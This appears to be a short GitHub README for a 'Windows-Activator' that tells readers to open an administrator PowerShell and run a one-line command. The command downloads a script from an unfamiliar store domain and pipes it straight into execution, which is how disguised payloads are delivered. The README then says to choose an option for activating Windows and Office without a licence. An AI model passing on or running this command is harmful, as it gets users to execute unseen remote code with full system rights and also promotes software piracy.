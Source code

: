 # Windows-Activator

# You can activte the windows as well as office from this powershell command


1. open powershell in administrator and type " irm https://getactivation.exitcorporation.store | iex " Enter

 ![image](https://github.com/user-attachments/assets/576e5fbc-fc6b-492e-8bee-d001d098b392)

2. After this press " 1 " For Windows Activation

![image](https://github.com/user-attachments/assets/9068e3c9-76b9-416a-8c65-b8501ab2b84a)


  

